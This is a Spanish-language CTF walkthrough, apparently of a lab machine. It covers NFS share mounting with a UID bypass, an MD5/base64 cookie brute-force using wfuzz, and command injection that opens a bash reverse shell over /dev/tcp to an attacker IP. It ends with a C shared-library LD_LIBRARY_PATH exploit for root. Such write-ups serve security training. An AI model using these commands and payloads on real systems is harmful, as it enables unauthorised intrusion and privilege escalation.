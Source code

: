 Realizamos un escaneo de nmap
![[Pasted image 20240630083659.png]]
![[Pasted image 20240630094343.png]]

Revisamos y encontramos 3 puertos abiertos de NFS, los revisamos
![[Pasted image 20240630091508.png]]
- **Directorio Exportado**: `/mnt/share`
- **Acceso**: El asterisco (`*`) indica que este directorio está accesible para ser montado por cualquier cliente NFS autorizado en la red.

Montamos el directorio en nuestro sistema
```
sudo mount -t nfs 10.10.200.145:/mnt/share hijack_mount
```
![[Pasted image 20240630091823.png]]

Si intentamos acceder a la carpeta nos mostrara que no tenemos acceso
![[Pasted image 20240630092052.png]]

Para ello primero crearemos un usuario
![[Pasted image 20240630092208.png]]

Revisamos que esta creado
![[Pasted image 20240630092230.png]]

Cambiamos el grupo del usuario
![[Pasted image 20240630092614.png]]

Accedemos al usuario
![[Pasted image 20240630092302.png]]

Accedemos a la carpeta y obtenemos las credenciales de un usuario de ftp
![[Pasted image 20240630092713.png]]

Probamos a acceder y ya estamos dentro
![[Pasted image 20240630093124.png]]

Revisamos la carpeta y encontramos los siguientes archivos
![[Pasted image 20240630093202.png]]

Los descargamos
![[Pasted image 20240630093447.png]]

Leemos los fichero y encontramos que en uno nos dan un mensaje en el que nos indica que nos proporcionan una lista de contraseñas con un limite de intentos para evitar los ataques de fuerza bruta, el mensaje ya nos muestra dos usuarios, admin y rick
![[Pasted image 20240630093648.png]]

Y aquí tenemos el fichero con las contraseñas
![[Pasted image 20240630093855.png]]

Accedemos a la web y esto es lo primero que nos encontramos
![[Pasted image 20240630094312.png]]


Capturamos la petición del acceso del administrador y encontramos que se valida con PHPSESSID que esta codeada en base64
![[Pasted image 20240630102140.png]]

Si revisamos la cookie podemos encontrar que la password tiene un hash
![[Pasted image 20240630102431.png]]

Si ahora revisamos el hash podemos ver que es posible que este hasheado en MD5
![[Pasted image 20240630102537.png]]

Como podemos ver la web hace lo siguiente, coge el usuario y la password del usuario en MD5, coge toda la sintaxis y la codifica en bas64 y este es el codigo de nuestra intercepción, ahora para nosotros poder encontrar la password del usuario admin con el listado de contraseñas primero tenemos que convertir todas las passwords a MD5, para ello cremos el siguiente scrip
```Python
import hashlib
import sys

def md5_hash_passwords(file_path):
    output_file = "passwd_hashmd5"

    try:
        with open(file_path, 'r') as file, open(output_file, 'w') as output:
            for line in file:
                password = line.strip()  # Elimina espacios en blanco y saltos de línea
                md5_hash = hashlib.md5(password.encode()).hexdigest()
                output.write(f"{md5_hash}\n")
        
        print(f"Hashes MD5 de las contraseñas almacenados en '{output_file}'.")

    except FileNotFoundError:
        print(f"Error: File '{file_path}' not found.")
    except IOError as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python script.py <file_path>")
        sys.exit(1)

    file_path = sys.argv[1]
    md5_hash_passwords(file_path)
```

![[Pasted image 20240630103955.png]]
Y al ejecutarlo me almacena todas las contraseñas
![[Pasted image 20240630103926.png]]

Ahora creamos un bucle para coger todas las passwords del archivo y convertirlas a base64 cogiendo el siguiente formato
```Bash
while IFS= read -r line; do                                                      
	echo -n "admin:$line" | base64
done < passwd_hashmd5 > b64.txt

```
![[Pasted image 20240630110109.png]]

El formato esta codificando la siguiente estructura
```
admin:pass_en_MD5
```

Si ahora comprobamos este valor veremos el formato
![[Pasted image 20240630110507.png]]

Ahora ya podemos realizar el ataque de fuerza bruta, para ello usaremos la herramienta de wfuzz para obtener las credenciales para acceder al panel de admin
```
wfuzz -c --hc 404 --hh 0 --hl 0 -u http://10.10.200.145/administration.php -w b64.txt -H "Cookie: PHPSESSID=FUZZ" -t 200
```
![[Pasted image 20240630111034.png]]

Ahora dentro de la pagina del panel de admin vamos a inspeccionar la pagina y dentro de storage vamos a la consulta y cambiamos el valor de PHPSESSID
![[Pasted image 20240630111240.png]]

Esto equivaldria a capturar la peticion con burpsuite, modificar el valor de la cookie y enviar la peticion con forward
![[Pasted image 20240630111733.png]]

Refrescamos la pagina y ya estamos dentro
![[Pasted image 20240630111317.png]]

Ahora nos encontramos con un panel que parece revisar el estado de un servicio
![[Pasted image 20240630112159.png]]

Revisamos la version
![[Pasted image 20240630112228.png]]

Revisando los comandos que podemos utilizar encontramos que ejecuta los comandos en el sistema
![[Pasted image 20240630112434.png]]

Y ahora nos generamos una reverse shell ejecutando el siguiente comando
```
$(bash -c 'exec bash -i &>/dev/tcp/10.9.0.118/1234 <&1')
```
![[Pasted image 20240630112715.png]]

Leemos el fichero de config y obtenemos las credenciales de rick
![[Pasted image 20240630112839.png]]

Rrevisamos los permisos sudo y encontramos una posible vulnerabilidad en la variable de `env_keep+=LD_LIBRARY_PATH`
![[Pasted image 20240630120833.png]]

Encontramos la manera de explotarlo desde la siguiente web
```
https://book.hacktricks.xyz/linux-hardening/privilege-escalation?source=post_page-----65e9d2b1a717--------------------------------#ld_preload-and-ld_library_path
```

Ahora creamos el exploit en c
```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
![[Pasted image 20240630122055.png]]

Ejecutamos el siguiente comando
![[Pasted image 20240630122140.png]]
- `gcc`: Este es el comando del compilador GNU C.
- `-o /tmp/libcrypt.so.1`: Especifica el nombre del archivo de salida de la compilación. En este caso, el programa compilado se llamará `libcrypt.so.1` y se ubicará en el directorio `/tmp`.
- `-shared`: Esta opción indica que el resultado de la compilación debe ser una biblioteca compartida (también conocida como archivo de biblioteca dinámica). Las bibliotecas compartidas son archivos que contienen funciones y código que pueden ser utilizados por otros programas durante su ejecución.
- `-fPIC`: Esta opción indica que el código compilado debe ser compilado como código independiente de la posición (Position Independent Code, PIC). Esto es necesario para las bibliotecas compartidas porque permite que el código se cargue y ejecute en diferentes ubicaciones de memoria dentro del espacio de direcciones virtual del proceso.

Y ahora al ejecutar el siguiente comando ya obtenemos acceso a root
```
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```
![[Pasted image 20240630122304.png]]

Obtención de la bandera de root
![[Pasted image 20240630122434.png]]


